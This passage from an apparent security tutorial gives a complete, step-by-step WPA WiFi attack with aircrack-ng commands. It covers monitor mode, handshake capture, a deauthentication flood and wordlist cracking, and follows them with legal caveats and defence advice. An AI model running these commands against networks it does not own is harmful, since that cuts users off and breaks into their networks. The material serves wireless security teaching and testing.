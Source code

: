 **4. Aircrack-ng (Crack password)**

```bash
# Crack captured handshake
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap

# -w: Wordlist
# -b: BSSID (target network)
# capture-01.cap: Captured handshake file
```

#### Complete WiFi Attack Workflow (Conceptual)

**Step-by-step process:**

```bash
# 1. Enable monitor mode
sudo airmon-ng start wlan0

# 2. Discover networks
sudo airodump-ng wlan0mon
# Note: Target BSSID, channel, and ESSID

# 3. Capture handshake
# Terminal 1: Start capture
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Terminal 2: Force client reconnection
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Wait for "WPA handshake: AA:BB:CC:DD:EE:FF" message

# 4. Crack password (offline)
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

# 5. Disable monitor mode
sudo airmon-ng stop wlan0mon
```

**Important notes:**

**Legal considerations:**
- Deauthentication is a denial of service attack
- Only test networks you own
- Capturing handshakes can be passive (waiting)
- Cracking is offline (legal on your own network)

**Success factors:**
- Password must be in wordlist
- Need complete 4-way handshake
- Strong passwords won't crack
- WPA3 resistant to this attack

**Defense recommendations:**
- Use WPA3 if available
- Long, random passwords (20+ characters)
- Disable WPS
- MAC filtering (minor security)
- Hide SSID (security through obscurity, weak)
